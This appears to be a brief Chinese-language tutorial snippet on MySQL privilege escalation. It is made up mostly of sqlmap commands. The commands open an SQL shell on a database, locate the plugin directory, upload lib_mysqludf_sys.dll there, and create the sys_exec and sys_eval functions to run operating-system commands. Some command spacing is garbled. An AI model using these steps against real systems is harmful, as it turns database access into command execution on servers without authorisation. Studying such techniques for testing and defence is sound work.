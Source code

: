  
## mysql提权

(1）连接mysql数据打开一个交互shell:
```
sqlmap.py -dmysql://root:root@127.0.0.1:3306/test --sql-shell

select @@version;

select @@plugin_dir;

d:\\wamp2.5\\bin\\mysql\\mysql5.6.17\\lib\\plugin\\
```
(2）利用sqlmap上传lib_mysqludf_sys到MySQL插件目录:

```
sqlmap.py -dmysql://root:root@127.0.0.1:3306/test --file-write=d:/tmp/lib_mysqludf_sys.dll--file-dest=d:\\wamp2.5\\bin\\mysql\\mysql5.6.17\\lib\\plugin\\lib_mysqludf_sys.dll

CREATE FUNCTION sys_exec RETURNS STRINGSONAME 'lib_mysqludf_sys.dll'

CREATE FUNCTION sys_eval RETURNS STRINGSONAME 'lib_mysqludf_sys.dll'

select sys_eval('ver'); 

```